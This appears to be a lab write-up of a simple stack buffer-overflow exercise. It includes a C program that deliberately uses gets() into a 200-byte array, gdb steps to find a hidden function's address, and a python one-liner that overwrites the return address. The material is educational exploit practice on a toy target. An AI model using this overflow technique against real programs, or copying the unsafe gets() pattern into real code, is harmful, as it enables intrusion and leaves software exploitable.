



# BUFFER OVER FLOW 1
> Target: Print "Congratulation!"
```
#include <stdio.h>

void secretFunc()
{
    printf("Congratulation!\n:");
}
int vuln()
{
    char array[200];
    printf("Enter text:");
    gets(array);
    return 0;
}
int main(int argc, char *argv[])
{
    if (argv[1] == 0)
    {
        printf("Missing arguments\n");
    }
    vuln();
    return 0;
}
```

### Step 1: Analyze the code.
In order to print the string "Congratulation!" onto screen, we need to depath the code flow to **secretFunc()**. But how?

Take a look at the vuln function. The **gets()** function is an old function to have user's input, but it can't handle the input length, so we can make use of it.

### Step 2: Conduct the attack.
Here's the stack frame:



As we want to call the **secretFunc()** without modify the code. Our aim is to overflow the data that need to be fit in the array memory (200 bytes), so that the ret vuln (return address of **vuln()**) will be the **secretFunc()**'s address.

First, I will load the program into **gdb** (blue underline) and **disas** the **secretFunc()** (yellow underline):



As you can see, in the purple box is the address of the **secretFunc()**

Back to the stack frame, we need to input 200 bytes to fit the array memory, then 4 bytes for the EBP of **vuln()**, and last 4 bytes is the address of **secretFunc()**. Here the command to load data into array:

    echo $(python -c "print('a' * 204 + '\x6b\x84\x04\x08')") | ./bof1.out

Above is the command to input data without the need to type on the keyboard when running the program.

### Step 3: Attack.
We win !!!



*Missing arguments*: This because I forgot to input at least 1 argument to main(), but it still doesn't matter.  
*Segmentation fault*: This because I don't replace an approriate return address for stack frame of secretFunc(), so the code flow broke after secretFunc() completed. 